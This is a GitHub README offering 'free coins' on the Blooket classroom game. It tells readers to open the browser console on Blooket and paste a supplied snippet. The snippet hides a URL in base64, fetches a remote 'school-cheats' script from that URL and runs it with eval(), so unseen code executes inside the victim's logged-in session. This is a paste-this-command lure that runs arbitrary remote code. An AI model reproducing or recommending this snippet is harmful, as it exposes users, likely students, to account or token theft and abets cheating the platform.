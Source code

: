 # Free-coins-for-blooket
500 coins per day for free








Step 1: Open Blooket and go to inspect.








Step 2: Copy the code at the bottom of the page.




Step 3: Paste the code in the console after inspecting the page.




Step 4: type in 500 into the box that appears.




Step 5: Re-load the page.




Step 6: Enjoy!






The code is below.

   
   
   
   fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))


